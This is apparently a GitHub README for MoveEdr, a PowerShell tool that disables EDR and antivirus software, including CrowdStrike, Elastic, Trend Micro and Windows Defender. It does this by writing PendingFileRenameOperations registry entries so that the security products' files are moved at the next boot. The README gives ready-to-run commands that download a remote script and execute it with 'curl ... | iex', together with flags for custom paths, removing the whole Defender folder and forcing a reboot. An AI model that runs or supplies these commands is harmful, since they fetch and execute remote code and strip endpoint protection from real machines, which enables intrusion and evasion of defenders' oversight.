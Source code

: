 # MoveEDR

If you're admin you can force Windows to delete or move folders and files around immediately after booting before services are started. This can be used to disable EDRs.

## Usage

```
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex; MoveEdr
# Reboot!
```

The following Flags are available
- `Undo` : Undo the EDR Move, works with `CustomPaths`
- `Clear`: Clear the registry key's value
- `Print`: Print the value of the registry key in  a human readable format instead of strings terminated by nullbytes
- `CustomPaths`: Specify your own EDR Paths instead of using built-in ones. Only takes sources as inputs, to also customize the destination use `FullyCustomPaths` instead.
- `FullyCustomPaths` : Specify sources and destinations, gives you full control over the move.
- `Suffix`: Use a different suffix for moved files instead of the default `_bak`
- `Dump`: Dump the values of the registry key in a format that can be used with `Load`
- `Load`: Load previously dumped values of the registry key
- `DefenderHard`: Instead of moving only select executables of the Windows Defender, move the whole `Windows Defender` folder
- `IgnoreOld`: Do not keep already existing values of the registry key, blindly overwrite them
- `Reboot`: Perform a reboot immediately after setting the registry key. Might perform Windows Updates and take a long time to reboot 😬

### Example
```
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex
MoveEdr -CustomPaths "C:\Program Files\newAndShinyEdr","C:\Windows\System32\drivers\newAndShinyEdr" -Suffix "_x33f" -IgnoreOld -DefenderHard -Reboot

# Do what you need to do!

# Undo
# Same command as before, just append -Undo
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex
MoveEdr -CustomPaths "C:\Program Files\newAndShinyEdr","C:\Windows\System32\drivers\newAndShinyEdr" -Suffix "_x33f" -IgnoreOld -DefenderHard -Reboot -Undo
```

## Long Story
Some programs have a feature which prevents even local administrators from uninstalling or disabling them. Most of the times these are AVs/EDRs which prompt you for a deactivation password, even when you are administrator.

Here is a trick to disable them by moving files and folders around so that they can not be started on the next boot.

[SysInternals's PendMoves](https://learn.microsoft.com/en-us/sysinternals/downloads/pendmoves) provides `movefile.exe` which has the following explanation:

>There are several applications, such as service packs and hotfixes, that must replace a file that's in use and is unable to. Windows therefore provides the MoveFileEx API to rename or delete a file and allows the caller to specify that they want the operation to take place the next time the system boots, before the files are referenced. Session Manager performs this task by reading the registered rename and delete commands from the HKLM\System\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations value.

How exactly does `MoveFileEx` do this? Let's check the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa#remarks) :

> The function stores the locations of the files to be renamed at restart in the following registry value: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations
> 
> This registry value is of type REG_MULTI_SZ. Each rename operation stores one of the following NULL-terminated strings, depending on whether the rename is a delete or not:
>
>    szSrcFile\0\0
>    szSrcFile\0szDstFile\0

This means that we can achieve the same effect as `movefile.exe`by creating the registry key `PendingFileRenameOperations`and enter the paths of the files/directories we want to delete in the correct `REG_MULTI_SZ` format.

The `MoveEdr` script automates creating the correct registry keys for the following AVs/EDRs:

- [ ] Bitdefender
- [ ] Blackberry Cylance
- [ ] Checkpoint
- [ ] Cisco
- [x] CrowdStrike
- [ ] Cyberreason
- [x] Elastic
- [ ] FireEye
- [ ] Fortinet
- [ ] Kaspersky
- [ ] Malwarebytes
- [ ] McAfee
- [ ] Palo Alto Cortex
- [ ] Sentinel One
- [ ] Symantec
- [x] Trend Micro Security Agent
- [ ] VMware Carbon Black
- [ ] Webroot
- [x] Windows Defender
- [x] Windows Defender for Endpoint